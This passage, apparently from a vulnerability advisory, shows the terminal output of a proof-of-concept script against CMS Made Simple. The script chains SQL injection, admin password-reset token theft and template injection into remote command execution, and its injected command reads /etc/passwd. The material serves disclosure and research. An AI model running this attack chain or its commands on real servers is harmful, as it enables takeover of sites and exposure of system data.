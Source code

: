```
researcher@incite:~/cmsms$ ./poc.py
(+) usage: ./poc.py <host> <path> <cmd>
(+) eg: ./poc.py 192.168.75.141 / id
(+) eg: ./poc.py 192.168.75.141 /cmsms/ "uname -a"

researcher@incite:~/cmsms$ ./poc.py 192.168.75.141 /cmsms/ "id;uname -a;pwd;head /etc/passwd"
(+) targeting http://192.168.75.141/cmsms/
(+) sql injection working!
(+) leaking the username...
(+) username: admin
(+) resetting the admin's password stage 1
(+) leaking the pwreset token...
(+) pwreset: 35f56698a2c3371eff7f38f34f001503
(+) done, resetting the admin's password stage 2
(+) logging in...
(+) leaking simplex template...
(+) injecting payload and executing cmd...

uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux target 5.8.0-40-generic #45-Ubuntu SMP Fri Jan 15 11:05:36 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html/cmsms
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

## References

1. [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
2. [https://chybeta.github.io/2018/01/23/CVE-2017-1000480-Smarty-3-1-32-php%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](https://chybeta.github.io/2018/01/23/CVE-2017-1000480-Smarty-3-1-32-php%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)